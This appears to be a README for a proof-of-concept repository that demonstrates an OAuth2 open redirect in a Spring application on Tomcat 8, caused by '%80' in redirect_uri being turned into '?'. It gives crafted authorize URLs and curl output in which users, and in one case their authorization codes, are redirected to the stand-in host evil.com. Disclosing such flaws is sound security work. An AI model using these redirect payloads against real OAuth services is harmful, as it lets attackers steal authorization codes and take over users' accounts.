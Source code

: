 # oauth2-open-redirect-sample

## 1) start app

```
./gradlew bootRun

```

## 2a) POC - Redirect without login (response type unknown)

open the following url in your browser / curl

    http://localhost:8080/oauth/authorize?client_id=clientId&redirect_uri=http://evil.com%80@trusted.com&response_type=bogus

-> RESULT: `302 Redirect` to `evil.com` which can be seen in the curl output (see `Location` response header):

```
$ curl -v "http://localhost:8080/oauth/authorize?client_id=clientId&redirect_uri=http://evil.com%80@trusted.com&response_type=bogus"
  *   Trying ::1...
  * TCP_NODELAY set
  * Connected to localhost (::1) port 8080 (#0)
  > GET /oauth/authorize?client_id=clientId&redirect_uri=http://evil.com%80@trusted.com&response_type=bogus HTTP/1.1
  > Host: localhost:8080
  > User-Agent: curl/7.54.0
  > Accept: */*
  >
  < HTTP/1.1 302
  < Location: http://evil.com?@trusted.com?error=unsupported_response_type&error_description=Unsupported%20response%20types:%20%5Bbogus%5D
  < Content-Language: en-US
  < Content-Length: 0
  < Date: Fri, 25 Jan 2019 05:10:00 GMT
  <
  * Connection #0 to host localhost left intact
```

## 2b) POC - Redirect with authorization code


1) open the following url in your browser

    http://localhost:8080/oauth/authorize?client_id=clientId&redirect_uri=http://evil.com%80@trusted.com&grant_type=authorization_code&response_type=code
    
2) Login with 'user' / 'password'

3) Observe 302 redirect with authorization code to attacker website, e.g. 

    http://evil.com/?@trusted.com?code=HSJwVn

## Explanation:

Tomcat 8 defaults to `UTF-8` to decode request params. `%80` can't be decoded as it's an invalid `UTF-8` hence it gets replaced by `� `. This character isn't a valid in `ISO 8859-1` which is used to serialize headers. This character gets replaced with `?` which leads to open redirect whenever oauth2 redirects back to the resource service (in both _success_ or _error_ cases!!!).